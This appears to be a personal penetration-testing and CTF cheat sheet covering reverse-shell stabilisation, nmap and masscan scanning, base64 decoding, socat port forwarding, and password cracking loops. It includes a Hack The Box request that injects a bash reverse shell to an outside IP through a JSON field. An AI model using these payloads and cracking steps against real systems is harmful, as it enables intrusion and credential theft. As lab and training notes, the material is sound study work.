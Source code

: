 ## 1. Stabilize your reverse shell
  
    
         python3 -c "import pty;pty.spawn('/bin/bash')"
         export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
         export TERM=xterm-256color
         alias ll='ls -lsaht --color=auto'
          ctrl+Z  (in target) 
         stty raw -echo;fg;reset
               press enter times 3
                   in my machine run 
                    stty -a ( output = speed 38400 baud; rows 40; columns 174; line = 0;)
                   Then in target run below 
         stty columns 174 rows 40
      
## 2. Nmap scan script
    $ cat nmap-scan.sh 
    ports=$(nmap -p- --min-rate=1000  -T4 $1 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -sC -sV -p$ports $1
    sudo masscan 34.125.4.41  -p0-65535,U:0-65535

   #### usage
    $ ./nmap-scan.sh <ip_to_scan>
## 3. Crypto
#### base64 encode
    $ echo -n "administrator:password" | base64
    YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==
#### base64 decode
    $ echo "YWRtaW5pc3RyYXRvcjpwYXNzd29yZA==" | base64 -d
    administrator:password 
#### For nested base64 files
    #!/usr/bin/env python3

    import sys
    import base64

    if len(sys.argv) < 2:
      print("Usage: {} <file.b64.txt>".format(sys.argv[0]))
      sys.exit(1)

    data = open(sys.argv[1], "r").read()

    while True:
      try:
        data = base64.b64decode(data)
      except:
        break

    print(data)
    
  ##### To use it:
 

    $ python3 decode_nested_b64.py b64.txt 
    b'flag 44: ygm2my89uqzirzj0nojw'
#### base32
    $ echo "NBSWY3DPEB3W64TMMQQQU===" | base32 -d
    hello world!
  
  ## Port forwading
  ### using socat 
          socat tcp-listen:9090,fork tcp:127.0.0.1:631  ....631 is internal port  ... 9090 is the port i will in mymachine
## BASH automation
*  cracking with all password list from seclists/Passwords
  
       for i in $(ls /usr/share/seclists/Passwords/ | grep .txt); do john hash /usr/share/seclists/Passwords/$i; done

 * cracking images
 
       for i in $(ls /usr/share/seclists/Passwords/ | grep *.txt); do stegseek event_banner.jpg /usr/share/wordlists/SecLists/Passwords/$i; done

   ### davzat hack the box machine getting shell
   
           POST /api/pet HTTP/1.1
            Host: pets.devzat.htb
            User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
            Accept: */*
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Referer: http://pets.devzat.htb/api/pets/
            Content-Type: text/plain;charset=UTF-8
            Origin: http://pets.devzat.htb
            Content-Length: 126
            DNT: 1
            Connection: close

            {"name":"aaaaa","species":"gopher;echo 'bash -i >& /dev/tcp/10.10.14.68/4444 0>&1' > sh.sh; chmod +x sh.sh;/bin/bash ./sh.sh"}
### Formating an id_rsa
   
     echo "-----BEGIN OPENSSH PRIVATE KEY-----" > id_rsa
     
  then body 
  
    echo "b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEAt9IoI5gHtz8omhsaZ9Gy+wXyNZPp5jJZvbOJ946OI4g2kRRDHDm5x7up3z5s/H/yujgjgroOOHh9zBBuiZ1Jn1jlveRM7H1VLbtY8k/rN9PFe/MkRsYdH45IvVbhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=" | sed 's/ /\n/g' >> id_rsa
    
 Then ending 
  
      echo "-----END OPENSSH PRIVATE KEY-----" >> id_rsa
      
### Convert Python 2 to python 3 using a python library.

We can convert Python2 scripts to Python3 scripts by using the 2to3 module. It changes Python2 syntax to Python3 syntax. We can change all the files in a particular folder from python2 to python3.

Step 1: Open your terminal and navigate to your File

Open your terminal or CMD depend on whatever you are using Windows or Linux.

Navigate to the directory where your python file(s) is/are located. (of course, using the “cd” command)

Step 2: Install the library

As usable, use pip to install 2to3, use can use any other library as well, I like 2to3

Commnd: pip install 2to3

Step 3: Convert the files
Excute: 2to3 [file or folder] -w
    
 
      
